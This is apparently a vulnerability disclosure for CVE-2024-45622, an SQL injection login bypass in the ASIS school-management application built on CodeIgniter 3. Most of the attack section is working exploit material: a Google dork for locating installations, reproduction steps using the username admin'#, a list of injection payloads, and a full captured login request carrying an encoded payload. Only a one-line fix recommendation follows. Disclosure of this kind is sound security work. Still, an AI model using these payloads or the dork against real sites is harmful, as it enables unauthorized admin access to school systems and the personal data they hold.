# ASIS | Aplikasi Sistem Sekolah using CodeIgniter 3 - SQL Injection Authentication Bypass

### CVE Assigned:
**[CVE-2024-45622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-45622)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-45622) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-45622)

### Date:

> 5 July 2024

### Author:

> checkgue

### Author Email:

> checkgue.meta4sec@gmail.com

### Google Dork:

> "ASIS | Aplikasi Sistem Sekolah"

### Vendor Homepage:

> https://www.facebook.com/groups/181558652941070/

### Software Link:

> [ASIS - Aplikasi Sistem Sekolah dengan Framework Codeigniter](https://members.phpmu.com/forum/read/asis--aplikasi-sistem-sekolah-dengan-framework-codeigniter) (Deprecated)

### Version:

> v 3.0.0 < 3.2.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> index.php

> `username` parameter within the login mechanism is vulnerable to SQL Injection.


### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Steps to reproduce:

* Step 1 - Visit http://localhost/asispanel/
* Step 2 - Enter username as `admin'#` and use any password you want.
* Step 3 - Click `LOGIN` and now you will be logged in as admin.

### Payloads Can be use:

```
admin'#
'||1#
'||1-- 
'=' 'or'
' OR '1'='1
' or 0=0 ##
```

## Proof of Concept [Burp Request]:

```
POST /asispanel/login/cek HTTP/1.1
Host: localhost
Cookie: ci_session=0221b92b7d2d402932dfc442b533d7af6d041c18
Content-Length: 57
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/asispanel/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en;q=0.9,id-ID;q=0.8,id;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: keep-alive

username=%27+or+0%3D0+%23%23&password=xyz&submit=&submit=
```

## Recommendations

When using this ASIS, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.

## References

+ https://aegislens.com/home/cve-2024-45622/
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-45622
* https://www.cve.org/CVERecord?id=CVE-2024-45622
* https://nvd.nist.gov/vuln/detail/CVE-2024-45622
* https://github.com/atoz-chevara/cve/blob/main/2024/ASIS_AplikasiSistemSekolah_Using_CodeIgniter3-SQL_Injection_Authentication_Bypass.md
* https://github.com/advisories/GHSA-8hxv-6g4p-2w59
* https://packetstormsecurity.com/files/181355/ASIS-3.2.0-SQL-Injection.html

```
Greetings to : ==========================
|| Meta4sec * Bungker * Jasakom * ECHO ||
=========================================
```
